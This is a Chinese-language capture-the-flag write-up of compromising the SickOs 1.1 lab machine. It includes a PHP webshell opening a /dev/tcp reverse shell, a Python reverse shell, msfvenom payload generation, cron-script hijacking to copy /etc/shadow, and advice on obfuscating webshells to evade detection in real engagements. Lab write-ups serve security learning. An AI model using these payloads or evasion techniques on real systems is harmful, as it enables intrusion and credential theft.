

# SickOs1.1靶场记录

[TOC]

## 主机发现

```
┌──(kali㉿kali)-[~/Documents/SickOs]
└─$ sudo nmap -sn 192.168.50.0/24                                                                 
```


## 端口探测

```
┌──(kali㉿kali)-[~/Documents/SickOs]
└─$ sudo nmap -sT --min-rate 10000 -p- 192.168.50.128 -oA ports
```


## 详细探测

```
┌──(kali㉿kali)-[~/Documents/SickOs]
└─$ sudo nmap -sT -sV -sC -O -p22,3128,8080 192.168.50.128  -oA detail
```


```
┌──(kali㉿kali)-[~/Documents/SickOs]
└─$ sudo nmap -sU  -p22,3128,8080  192.168.50.128 -oA udp
```


## 脚本探测

```
┌──(kali㉿kali)-[~/Documents/SickOs]
└─$ sudo nmap --script=vuln -p22,3128,8080 192.168.50.128 -oA vuln
```


## Web尝试访问


搜了一下漏洞发现没有。开始准备目录爆破。这就是靶机最无聊的地方。


## 目录爆破

在这需要注意的是，靶机使用Squid代理因此，我们在进行目录爆破的时候需要添加代理选项，因为我们并不是爆破代理，而是试图爆破代理后面的web应用。本质是让dirb在http请求中添加于代理有关的header。

```
┌──(kali㉿kali)-[~/Documents/SickOs]
└─$ sudo dirb http://192.168.50.128 -p http://192.168.50.128:3128

```


尝试访问爆破出来的信息，注意要添加代理。


```
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"

```

## 整理搜集到的信息

* 存在一个/wolfcms的目录，可以尝试访问，获得到一个新的web页面信息丰富
* 有可以获得一个名为connect.py，Python文件，目前感觉没什么用
* 在返回页面的源码中没有发现什么有效信息
* 存在一个名为cgi-bin的目录，可以再次尝试爆破
* 存在一个名为server-status的目录，但是没有权限


1. 因为我看到了管理发布的文章，因此可以推测web应用存在管理员接口。

2. 可以搜索一下漏洞，一看漏洞挺多的，可惜我没找到方法确认版本。

   

通过网络搜索我搜索到了wolf cms的路径，顺便尝试了一下sql注入本来也没抱希望。



## 尝试漏洞

由于为获取到WOlf CMS具体版本因此尝试漏洞，看了一下漏洞，是需要权限认证后的漏洞。因此问题又回到的原点如何获取管理员账号密码。到这里我想到了爆破，因为登录的过程中没有验证码，于此同时可以尝试一下默认密码。

默认账号网上搜索得知，密码猜的。

```
admin
admin
```


最后我通过尝试默认密码成功。kali里面的firefox不知道抽什么风，我尝试默认密码成功以后无法登录，连页面的访问不了了，导致我以为尝试失败。后来我用chrome尝试登录才成功。


一看到处都是攻击面，首先就可以发现大量php执行。准备一句话木马，实战环境中务必混淆，变型，能不反弹shell尽量不要反弹shell。

否则怎么死的都不知道，将请求返回信息尽量都藏在网页正常请求中，不要调用/bin/bash能用php脚本完成的尽量用脚本完成。

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.50.129/5050 0>&1'"); ?>
```


## 提升权限

### 方法1

检索配置文件config.php，CMS必定访问数据库，因此在配置文件中很可能有数据库账号密码。(记得保存文件)


​	因为这里获得了密码，可以考虑密码串联，尝试登录ssh，于是可以搜集一波用户信息。

​	

我的运气就是这么差，尝试登录失败。（等我用其他方法完成以后，又来尝试成功了。答案藏在截图里）


### 方法2

检查Linux计划任务`ls -alhR /etc/cron*`


意识到可以通过connect.py达到权限提升的目的。

#### 反弹root权限shell

使用`cat >> /var/www/connect.py << EOF`可以向connect.py写入复杂文件

##### 自己写python反向shell

```python
#!/usr/bin/python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1", 5050))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

```

##### 利用msfvenom生成python反向shell

````
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo msfvenom -p cmd/unix/reverse_python lhost=192.168.50.129 lport=5050 -f raw

````


#### hash爆破密码

```

echo -e "\nwith open(\"/etc/shadow\", 'r') as f1:\n    with open(\"/var/tmp/sickos.bk\", 'w') as f2:\n        f2.write(f1.read())" >> /var/www/connect.py
```

## 结果


## 收获

1. `ls -alhR /etc/cron*`快速检索自动任务
2. 使用msfvenom生成python反向shell

### ls -alhR /etc/cron*

命令 `ls -alhR /etc/cron*` 使用了 `ls` 命令的多个选项来列出 `/etc/cron*` 目录及其子目录中的所有文件和目录的信息。让我们快速了解Linux系统内部的自动任务，排查是否有权限提升的可能。

#### `ls` 命令及其选项

- `ls`：列出目录内容的命令。
- `-a`：显示所有文件，包括隐藏文件（以 `.` 开头的文件）。
- `-l`：使用长格式列出文件，显示详细信息，如文件权限、所有者、大小和修改时间。
- `-h`：以人类可读的格式显示文件大小（例如，1K，234M，2G），使文件大小更容易理解。
- `-R`：递归地列出目录及其子目录中的所有文件。

